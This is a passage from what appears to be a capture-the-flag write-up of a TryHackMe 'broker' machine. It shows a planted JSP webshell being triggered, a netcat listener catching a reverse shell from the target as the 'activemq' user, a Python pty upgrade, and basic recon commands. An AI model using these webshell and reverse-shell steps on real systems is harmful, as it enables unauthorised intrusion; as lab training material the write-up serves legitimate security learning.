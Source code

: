```
* Connection #0 to host broker.thm left intact
```

**We now should able to use the webshell in `/admin/exploit.jsp`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/broker/images/Pasted%20image%2020230101223717.png)

Let's get a reverse shell!

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# nc -lnvp 443
listening on [any] 443 ...
```

- Run the webshell:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/broker/images/Pasted%20image%2020230101223802.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# nc -lnvp 443                                                                                        
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.179.241] 37646
python3 -c "import pty;pty.spawn('/bin/bash')"
bash-5.0$ whoami;hostname;id;hostname -I
activemq
activemq
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
10.10.179.241 172.17.0.1
```
